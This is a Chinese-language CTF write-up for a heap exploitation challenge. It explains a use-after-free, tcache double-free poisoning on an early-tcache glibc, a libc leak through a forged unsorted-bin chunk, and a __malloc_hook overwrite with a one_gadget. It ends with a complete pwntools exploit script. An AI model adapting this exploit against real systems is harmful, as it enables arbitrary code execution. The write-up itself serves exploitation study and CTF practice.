





程序非常简单，但是libc版本比较新，是刚引入tcache的版本。



可以看到程序只有两个选项，创建和删除。



add函数里面只有创建然后分两部分写入数据然后输出，%s的特性倒是可以用来泄露。没有什么明显漏洞。



free_函数有一个uaf漏洞，这是整个程序唯一的漏洞。

但是仅仅如此？

of couse not！！

刚引入tcache时，没有任何双重释放的检查，并且tcache对于链表上的地址合法性也没有任何防护。

tcache的机制我在这里讲一下，程序分配堆空间之前会先生成一个0x250大小的堆区用来保存链表的头。与每个链表里堆块的数量。从0x20到0x410，并且没有任何防护，只要能控制到对应的堆区就可以实现任意地址写入。

这适合就可以利用双重释放去投毒。也就是去更改fd区域，由于堆区直接是相邻的所以这里直接部分覆盖。但是有一个字节需要爆破。

并且由于我们输入的字节很少并没有完全去覆盖tcache的堆区，所以打印的时候会直接把我们改完之后的堆地址打印出来。这里的地址正是由于双重释放产生的。

第一块申请完之后，由于fd被我们修改为我们需要的地址，所以再申请两次之后就能拿到对应地址的控制权了。



这里可以看到tcache结构体用来储存0x80堆块信息的位置。

由于我们需要控制堆地址的位置，申请堆地址只有0x70的空间可以写入。所以我选择了0x555555a01020这个地方，这样即可碰到堆地址的储存区域，又可以去更改大部分count数组的值。但是申请这个位置干什么呢。当然是去利用unsorted去泄露libc地址了。

我们在0x555555a01020上伪造一个堆块然后利用我们可以碰到下一个0x70大小申请区域的条件去伪造一个堆地址。这里要说明一下tcache低版本不像fastbin一样会去检查头区。伪造的堆区大小必须在我们更改count数组表述堆块大小范围内，这样才能顺利进入unsorted bin（这里是因为tcache最多允许储存7个堆块）。


这里的几个地址是提前下的毒药为了防止利用链断开。那到这又有人问了，既然tcache不检查头区，我们为啥还要伪造。tcache是不检查但是free检查size段啊。所以才要伪造。

之后申请堆块就会是我们伪造的堆块，然后0x555555a01030上投的毒就起作用了。之后0x555555a01020就会再次被认为是链表头然后我们就能申请了。这里也是为了泄露unsorted里面的地址所以才要在低地址位置申请堆块利用%s的特性去泄露libc地址。

之后0x555555a01020地方投的毒就启作用了。这里也是为了防止利益链不断，因为我们之后要去申请malloc_hook。



这个就是两个毒药都起作用之后堆区的情况，可以看到0x555555a01080上储存了0x555555a01070然后我们再申请就可以控制到0x555555a01080实现任意地址读写了。

后面就是正常的往malloc_hook里面放入one_gadget地址。

总的来说难度不大，但是对堆块区域控制的分配还是要求很精细的。没找到答案，自己调试了3天才整出来。

```
from pwn import *

context.arch = 'amd64'
context.aslr = False
r= process('./11')
libc = ELF('./libc.so.6')
#r=remote('node5.buuoj.cn',26715)


def add(txt1,txt2):
    r.sendlineafter(b'>> ',b'1')
    r.sendafter(b'title:',txt1)
    r.sendafter(b'content:',txt2)
def delt(num):
    r.sendlineafter(b'>> ',b'2')
    r.sendlineafter(b'index:',str(num).encode())
add(b'a'*8,b'a'*4)
add(b'a'*8,b'a'*4)
delt(0)
delt(0)
add(p16(0x1020),b'a'*4)
heap = u64(r.recvuntil(b'aaaa')[-11:-5].ljust(8, b'\x00'))- 0x10
print(hex(heap))
add(b'a'*8,b'a' *4)
add(p64(heap+0x60),p64(0x231)+p64(heap+0x10)+p8(7)*0x18+p64(0)*6+p64(heap+0x20)+p64(0))

add(b'a'*8,b'a'*16)

delt(5)

add(b'a'*7+b'\x00',b'a'*0x7+b'b')

r.recvuntil(b'b')
libc_ = u64(r.recv(6).ljust(8, b'\x00'))
print(hex(libc_))

libc_base = libc_ - libc.sym['main_arena'] - 0x60
print(hex(libc_base))
malloc_hook = libc_base + libc.sym['__malloc_hook']
one_gadget = libc_base + 0x4f322
print(hex(malloc_hook))
gdb.attach(r)
add(b'c'*8,b'c'*8+p64(malloc_hook))

add(p64(one_gadget),b'aaaa')

r.sendlineafter(b'>> ',b'1')
r.interactive()
```

